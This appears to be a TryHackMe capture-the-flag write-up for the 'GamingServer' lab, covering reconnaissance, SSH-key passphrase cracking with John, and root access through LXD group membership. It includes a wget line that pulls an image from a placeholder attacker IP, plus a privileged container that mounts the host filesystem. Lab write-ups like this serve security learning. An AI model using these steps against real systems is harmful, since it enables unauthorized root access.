





# GamingServer - TryHackMe Writeup

**Difficulty:** Easy		            
**TL;DR:** Web source disclosure → SSH key → Weak password → LXD privilege escalation

## Target
- Machine: `exploitable.thm`
- Date: 2025-10-2
- Environment: TryHackMe / CTF

## Steps:

### 1. Initial scan:

```bash
nmap -sS -T4 -Pn exploitable.thm

22/tcp open ssh
80/tcp open http

```

#### Web source

In page source :



it's note for user `john` .

### 2. Directory Discovery

```bash
gobuster dir -u http://exploitable.thm/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x .php


/about.php            (Status: 200) [Size: 2213]
/index.html           (Status: 200) [Size: 2762]
/robots.txt           (Status: 200) [Size: 33]
/secret               (Status: 301) [Size: 315]
/uploads              (Status: 301) [Size: 316]
```

Directory brute force found `/secret` with SSH key



#### Password Cracking :

Cracked SSH key password with `John` :

```bash
ssh2john id_rsa | tee > hash

john hash --wordlist=/usr/share/wordlists/rockyou.txt
```


### 3. Access to the server

SSH access as john:

```bash
ssh -i id_rsa john@exploitable.thm
```

#### User Flag:

located at `/home/john/user.txt`




### 4. Privilege Escalation

Discovered lxd group membership:
```bash
id

uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

#### LXD

LXD (Linux Container Daemon) :
a powerful, open-source system container and virtual machine manager that offers a VM-like experience (snapshots, storage, networking) but uses efficient Linux containers (LXC) at its core, providing a unified platform to run full Linux systems.

It runs as root on the host.
Members of the local lxd group on Linux systems have numerous routes to escalate their privileges to root.


#### Privilege Escalation via LXD

1. On attacker machine Built Alpine image locally with root:

```bash
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sudo ./build-alpine
```

that will creating `alpine-v3.17-x86_64-20230208_0139.tar.gz`.

2. upload to victim machine:
```bash
#Attacker Machine:
python3 -m http.server 8000

#Victim Machine:
wget http://YOUR_IP:8000/alpine-v3.22-x86_64-20250913_0459.tar.gz
```

3. import the image in LXD:

```bash
lxc image import ./alpine-v3.22-x86_64-20250913_0459.tar.gz --alias myimage

lxc image list
```



4. creating and running Container with Sudo rights :

```bash
#gives container root privileges
lxc init myimage mycontainer -c security.privileged=true

#Mounting
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

#start
lxc start mycontainer
```
5. Access to the Container :

```bash
lxc exec mycontainer /bin/sh
```

#### ROOT Flag

located at at `/mnt/root/root/root.txt`


